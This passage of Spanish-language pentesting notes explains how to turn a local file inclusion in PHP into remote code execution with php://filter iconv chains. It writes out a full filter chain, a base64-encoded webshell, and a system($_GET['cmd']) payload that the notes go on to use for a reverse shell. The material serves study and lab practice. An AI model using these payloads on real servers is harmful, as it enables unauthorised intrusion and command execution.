 Ahora lo que deberíamos hacer es repetir del paso [3] y [4] para cada letra que queramos agregar.

La palabra "Prueba" completa quedaría de la siguiente manera y nos devolverá el siguiente OUTPUT.

- ``php -r "echo file_get_contents('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101|convert.base64-decode|convert.base64-encode|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7/resource=php://temp');"; echo``

![[LFI 22.png]]

Si copiamos el código desde que aplicamos el primer Wrapper, hasta ``php://temp`` en la web, podríamos inyectar la cadena de texto en la misma.

-------

Esto que hicimos con la palabra "*Prueba*" lo podríamos hacer tranquilamente con la linea de código ``<?php system("whoami") ?>`` solo que si buscamos en el repositorio de Github el encoding del símbolo ``<`` y ``>`` **veremos que no existe**, por lo tanto esto se solucionaría fácilmente **pasando el código a Base64**, quedando tal que así **PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSkgPz4=**, luego eliminamos el ``=`` del final porque no afecta que lo hagamos y para evitar conflictos, para luego hacer **encoding de toda la cadena en Base64**.

Hacer lo anterior **sería muy tedioso para una cadena extensa** como la cadena en Base64 que tenemos, por lo tanto ahora que sabemos como se hace de manera manual, **podemos utilizar la herramienta del mismo repositorio** para que lo **automatice**, todo lo dicho anteriormente la herramienta lo hace de manera automática. (El base64 de ``<?php system("whoami") ?>``, el ``rev``, etc.)

![[LFI 23.png]]

Esto copiado y **enviado a la Web** quedaría así

![[LFI 24.png]]

¡Tendríamos **RCE**!

Para maximizar aún mas podemos usar ``<?php system($_GET['cmd']) ?>`` y al final de toda la cadena hiper larga que nos da la herramienta agregar un ``&cmd=`` y luego del ``=`` **colocaríamos el comando que quisiéramos**, en nuestro caso una **Reverse shell**.

![[LFI 25.png]]

-----

# Listar el contenido del /proc/net/tcp para ver puertos internos abiertos

